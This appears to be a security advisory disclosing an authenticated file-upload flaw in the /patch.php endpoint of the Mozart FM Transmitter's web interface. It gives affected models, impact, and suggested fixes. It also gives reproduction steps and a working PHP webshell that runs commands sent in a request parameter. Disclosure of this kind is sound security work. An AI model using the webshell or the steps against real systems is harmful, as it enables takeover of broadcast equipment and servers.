 # DB Electronica Mozart FM Transmitter authenticated File Upload Vulnerability

## Description
The Mozart FM Transmitter web management interface contains an unrestricted file upload vulnerability in the `/patch.php` endpoint. An attacker with administrative credentials can upload arbitrary files (e.g., PHP webshells), which are stored in the `/patch/` directory. This allows the attacker to execute arbitrary commands on the server, potentially leading to full system compromise.

## Vendor of the Product(s)
**DB Electronica Telecomunicazioni S.p.A.**

## Vendor Homepage:** https://www.dbbroadcast.com/

## Affected Product(s)/Code Base
- **Product:** Mozart FM Transmitter  
- **Firmware/Software Version:** 30 , 50 , 100 , 300 , 500 , 1000 , 2000 , 3000 , 3500 , 6000 , 7000

## Vulnerable Endpoint(s)
- `/patch.php`  

## Attack Type
- **Type:** File Upload Vulnerability  
- **Classification:** Unrestricted File Upload  

## Impact
- **Severity:** Critical  
- **Description:**  
  The `/patch.php` endpoint allows an authenticated user with administrative access to upload files without proper validation or sanitization. An attacker can exploit this vulnerability to upload a malicious file (e.g., a PHP webshell) to the server. Once uploaded, the attacker can execute arbitrary commands by accessing the webshell at `/patch/` and achieve full system compromise.

## Affected Component(s)
Web management interface of Mozart FM Transmitter.

## Attack Vector(s)
- **Access Method:** Remote access via web interface  
- **Authentication Requirement:** Administrative login required  
- **Exploit Complexity:** Low  


## Impact Example:

   - ** Execution: Uploading the above webshell allows the attacker to execute system commands directly on the server.

   - ** Result: The attacker gains full control over the system, including the ability to modify files, extract sensitive information, or escalate privileges.

## Vulnerability Type Info

   - ** Vulnerability Type: Unrestricted File Upload

   - **  CWE-ID: CWE-434

   - ** Definition: The software allows the uploading of files without sufficient validation, which can result in remote code execution, malware delivery, or other malicious actions.

## Impact Info

   - ** Impact Type:
   - Code Execution: Execute arbitrary commands on the server.
   - Privilege Escalation: Gain higher privileges on the system.
   - Data Exfiltration: Access or extract sensitive information.
   - System Compromise: Full control of the server.

## Proof of Concept (PoC)
### Steps to Reproduce:
1. Log in to the Mozart FM Transmitter web interface as an administrator.  
2. Navigate to the `/patch.php` endpoint.  
3. Upload a malicious PHP webshell (e.g., `webshell.php`).  
4. Access the uploaded file at `/patch/webshell.php`.  
5. Execute arbitrary system commands via the webshell interface.  

### Example Webshell (PHP):
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```
https://github.com/user-attachments/assets/cd3ba88a-91fc-4eda-8849-8df7a0c57277

## Suggested Fixes

   - ** File Type Validation: Restrict uploaded files to specific, safe file types (e.g., .zip or .bin for patches).

   - ** File Content Validation: Use server-side checks to ensure the content of the uploaded file matches its intended purpose.

   - ** Storage Restrictions: Store uploaded files outside of web-accessible directories.

   - ** Authentication Controls: Strengthen authentication mechanisms to prevent unauthorized access.

   - ** Access Controls: Restrict access to the /patch.php endpoint to authorized personnel only.

   - ** Logging: Log file upload activities for auditing and monitoring purposes.

   - ** Testing: Perform regular security testing for file upload vulnerabilities.
